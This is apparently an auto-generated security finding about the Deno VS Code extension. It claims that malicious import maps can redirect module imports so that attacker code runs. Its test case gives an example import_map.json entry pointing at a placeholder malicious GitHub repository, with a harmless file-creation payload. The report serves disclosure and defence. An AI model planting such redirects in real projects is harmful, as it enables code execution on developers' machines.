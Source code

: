 ### Malicious Module Redirection via Import Map

- **Vulnerability Name:** Malicious Module Redirection via `deno.json` and `import_map.json`
- **Description:**
    1. An attacker crafts a malicious project with `deno.json` or `import_map.json` files.
    2. These files redirect module imports to attacker-controlled scripts.
    3. A user opens this project in VS Code with the "Deno for Visual Studio Code" extension enabled.
    4. The extension applies configurations, and the Deno language server resolves dependencies using malicious redirects.
    5. This results in arbitrary code execution within the user's workspace when the Deno language server fetches and processes these malicious scripts.
- **Impact:** Arbitrary code execution within the user's workspace, leading to data theft, file modification, and malware installation.
- **Vulnerability Rank:** Critical
- **Currently Implemented Mitigations:** None identified in the extension that specifically mitigate malicious module redirection via configuration files.
- **Missing Mitigations:**
    - Input validation and sanitization for `deno.json` and `import_map.json` files, checking for malicious redirects.
    - Security warnings to the user when suspicious configurations are detected.
    - Sandboxing or isolation of module resolution and execution.
    - Improved documentation and user awareness about risks of untrusted projects.
- **Preconditions:**
    - User has the "Deno for Visual Studio Code" extension installed and enabled.
    - User opens a project from an attacker with malicious `deno.json` or `import_map.json`.
    - The Deno extension becomes active and resolves modules, triggering redirects.
- **Source Code Analysis:**
    - `client/src/extension.ts`: `initializationOptions` passes `deno.config` and `deno.importMap` settings to the language server without validation.
    - `client/src/commands.ts`: `startLanguageServer` initializes the Deno language server, which processes these configurations.
    - No code in the provided files validates or sanitizes `deno.json` or `import_map.json`.
- **Security Test Case:**
    1. Create a `malicious-deno-project` directory.
    2. Create `import_map.json` with a malicious redirect, e.g.:
       ```json
       {
         "imports": {
           "malicious_module/": "https://raw.githubusercontent.com/username/malicious-repo/main/"
         }
       }
       ```
    3. Create `main.ts` importing from `malicious_module/`.
    4. Create a public GitHub `malicious-repo` with `malicious_script.ts` containing malicious code (e.g., file creation).
    5. Open `malicious-deno-project` in VS Code, ensure Deno extension is enabled, and open `main.ts`.
    6. Check for the execution of malicious code (e.g., file `pwned.txt` creation).
